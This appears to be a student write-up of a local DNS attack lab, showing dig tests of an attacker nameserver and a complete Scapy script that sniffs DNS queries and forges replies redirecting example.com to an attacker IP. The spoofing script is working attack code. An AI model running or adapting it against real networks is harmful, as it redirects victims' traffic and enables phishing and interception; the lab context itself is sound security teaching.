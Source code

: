 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

With this code, we sniff for DNS requests containing ``` example.com ```, we spoof a reply by swapping target and source IP addresses and ports and creating a DNS answer section containing the 'bad' IP address we want the victim to use for the respective hostname.

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer now contains the attacker machine's IP address (```10.9.0.1```) and not the real address like before.
